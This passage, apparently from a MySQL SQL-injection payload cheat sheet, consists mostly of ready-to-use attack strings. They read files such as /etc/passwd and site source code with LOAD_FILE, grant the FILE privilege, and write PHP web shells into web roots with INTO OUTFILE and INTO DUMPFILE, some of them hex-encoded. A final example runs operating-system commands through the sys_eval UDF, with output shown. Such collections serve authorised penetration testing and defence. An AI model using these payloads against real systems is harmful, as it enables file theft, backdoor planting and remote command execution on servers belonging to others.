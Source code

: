 Need the `filepriv`, otherwise you will get the error : `ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`

```sql
UNION ALL SELECT LOAD_FILE('/etc/passwd') --
UNION ALL SELECT TO_base64(LOAD_FILE('/var/www/html/index.php'));
```

If you are `root` on the database, you can re-enable the `LOAD_FILE` using the following query

```sql
GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
```

## MYSQL Command Execution

### WEBSHELL - OUTFILE Method

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

### WEBSHELL - DUMPFILE Method

```sql
[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```

### COMMAND - UDF Library

First you need to check if the UDF are installed on the server.

```powershell
$ whereis lib_mysqludf_sys.so
/usr/lib/lib_mysqludf_sys.so
```

Then you can use functions such as `sys_exec` and `sys_eval`.

```sql
$ mysql -u root -p mysql
Enter password: [...]

mysql> SELECT sys_eval('id');
+--------------------------------------------------+
| sys_eval('id') |
+--------------------------------------------------+
| uid=118(mysql) gid=128(mysql) groups=128(mysql) |
+--------------------------------------------------+
```

